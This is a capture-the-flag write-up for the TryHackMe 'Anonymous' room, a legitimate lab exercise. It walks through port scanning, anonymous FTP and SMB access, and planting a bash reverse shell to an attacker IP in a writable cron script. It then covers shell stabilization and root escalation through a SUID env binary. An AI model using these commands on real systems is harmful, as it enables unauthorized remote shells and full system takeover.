 # Anonymous

<b>Available at: </b>[TryHackMe](https://tryhackme.com/room/anonymous)
<b>Room by: </b>[Nameless0ne](https://tryhackme.com/p/Nameless0ne)

A medium level machine, feel free to read my notes

## Enumerate the machine.  How many ports are open?

Use nmap
`nmap -sC -sV -vv -oN nmap.txt -p- IP`

Answer: `4`

Ports open:
```
21
22
445
139
```

## What service is running on port 21?

What is typicall for port 21?

`FTP`

## What service is running on ports 139 and 445?

View the nmap output: `cat nmap.txt`

```
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

Answer: smb

## There's a share on the user's computer. What's it called?

We have to list shares. smbclient -L ////IP:445 or ////IP:139

But no luck. I tried an anonymous connection to the ftp client, and success. 

### Files got: 
```
clean.sh 
removed_files.log  
to_do.txt
```

At first glace, nothing good.

### smb-enum-shares

Became desperate, so I tried this.

```
nmap --script smb-enum-shares -p 445,139 10.10.253.50
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-02 16:36 EST
Nmap scan report for 10.10.253.50
Host is up (0.048s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.253.50\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (anonymous server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.253.50\pics: 
|     Type: STYPE_DISKTREE
|     Comment: My SMB Share Directory for Pics
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\namelessone\pics
|     Anonymous access: READ
|     Current user access: READ
|   \\10.10.253.50\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

```

### Answer

pics

`smbclient //IP/pics -U " "%" "`

and we get a list: 
```
corgo2.jpg
puppos.jpg
```
possible user: namelessone

## user.txt

take what I said back, we could use `clean.sh` to get a reverse shell

from 

```bash
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
to 

```bash
bash -i >& /dev/tcp/10.8.147.71/8888 0>&1;
```

I appended this to file in ftp using `append clean.sh` 
run `nc -lvnp 8888` in another tab and we are good to go!

Then just cat the user flag. 

## root.txt 

### Stabilize shell

```
$ python3 -c "import pty; pty.spawn('/bin/bash')"

$ export TERM=xterm; export SHELL=/bin/bash
```
then Ctrl + Z to background the process, and in your host:
```
$ stty raw -echo; fg
```
and bam , we have a stable shell

### Escalation

running `id` the user is in groups `4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)` but we dont know the sudo password.

Lets run find for suid binaries
```bash
find / -type f -user root -perm /4000 2>/dev/null
```
time for linpeas.sh! Lets get it over through a simple python server:
```
python3 -m http.server --bind LHOST_IP 9999
```
and on remote you just wget the linpeas.sh file and run it

Now.... After linpeas finished, I realized that it found SUID binaries, that I overlooked in find. Especially `env`. 

run 
```
env /bin/bash -p
```
and we are root 

The root flag is in the /root/ directory 
